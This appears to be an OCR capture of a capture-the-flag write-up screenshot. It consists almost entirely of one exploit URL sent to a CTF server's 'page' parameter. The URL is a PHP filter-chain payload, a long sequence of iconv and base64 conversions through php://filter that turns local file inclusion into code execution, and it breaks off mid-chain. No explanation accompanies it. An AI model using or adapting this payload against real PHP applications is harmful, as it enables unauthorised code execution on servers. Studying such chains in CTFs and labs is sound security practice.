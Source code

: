 ```
https://simplelazy.ctf.rawsec.com/index.php?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.b
```